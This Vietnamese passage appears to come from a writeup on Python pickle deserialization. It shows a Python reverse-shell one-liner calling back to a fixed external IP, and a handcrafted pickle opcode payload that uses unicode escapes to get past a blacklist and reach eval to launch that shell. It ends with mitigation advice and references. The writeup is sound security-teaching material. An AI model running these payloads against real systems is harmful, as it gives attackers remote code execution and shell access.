

### Bonus

Thực thi được lệnh rồi mà chưa reverse shell thì hơi phí. Ta đã thành công gọi method eval của python nên có thể trực tiếp sử dụng các payload revshell của python:

```python
export RHOST="13.213.213.17";
export RPORT=10774;
python -c '
import sys,socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("sh")
'
```

Ta có thể thực gói đống này lại vào trong `__import__('os').system('....')` để hoàn thiện thực thi revshell. Payload cuối cùng với unicode kí tự `_` và `s`, ở đây ta có thể nhảy vào trong docker hoặc brute force xem os._wrap_close_ nằm ở index nào, trong trường hợp này là 134:

```python
import base64
raw = (
    b"\x80\x04"
    b"V__main__\n"
    b"V__class__.__base_\u005f.__subclasses__\n"
    b"\x93"
    b"(" b"t" b"R"
    b"p0\n"
    b"V__main__\n"
    b"V__class__.__base_\u005f.__getattribute__\n"
    b"\x93"
    b"p1\n"
    b"(" b"g0\n" b"V__getitem__\n" b"t" b"R"
    b"(" b"I134\n" b"t" b"R"
    b"p2\n"
    b"g1\n"
    b"(" b"g2\n" b"V__init__\n" b"t" b"R"
    b"p3\n"
    b"g1\n" b"(" b"g3\n" b"V__globals_\u005f\n" b"t" b"R"
    b"p4\n"
    b"g1\n" b"(" b"g4\n" b"V__getitem__\n" b"t" b"R"
    b"p5\n"
    b"(" b"V__builtins_\u005f\n" b"t" b"R"
    b"p6\n"
    b"g1\n" b"(" b"g6\n" b"V__getitem_\u005f\n" b"t" b"R"
    b"p7\n"
    b"(" b"Veval\n" b"t" b"R"
    b"p8\n"
    b"(V__import_\u005f('o\u0073').sy\u0073tem(\"export RHOST='13.213.213.17';export RPORT=10774;python -c \\\"import sy\u0073,socket,o\u0073,pty;s=socket.socket();s.connect((o\u0073.getenv('RHOST'),int(o\u0073.getenv('RPORT'))));[o\u0073.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('bash')\\\"\")\n"
    b"t"
    b"R"
    b"."
)
print(base64.b64encode(raw))
```



### Cách phòng chống các lỗ hổng liên quan tới pickle

Đơn giản và hiệu quả nhất là không pickle các dữ liệu bên ngoài, thay vào đó có thể sử dụng json hay yaml. Tuy nhiên, vẫn có những trường hợp phức tạp bắt buộc sử dụng pickle để tái tạo lại các cấu trúc object phức tạp, thì ta có thể override lại find_class với whilelist chặt chẽ chứ không dùng blacklist như ví dụ được phân tích chẳng hạn.

### References

[Pain Pickle](https://hitcon.org/2022/slides/Pain%20Pickle%EF%BC%9A%E7%B3%BB%E7%B5%B1%E5%8C%96%E5%9C%B0%E7%B9%9E%E9%81%8E%20Restricted%20Unpickler.pdf)

[pickle — Python object serialization &#8212; Python 3.13.6 documentation](https://docs.python.org/3/library/pickle.html)

[Insecure Deserialization in Python](https://tontac.team/insecure-deserialization-in-python/)

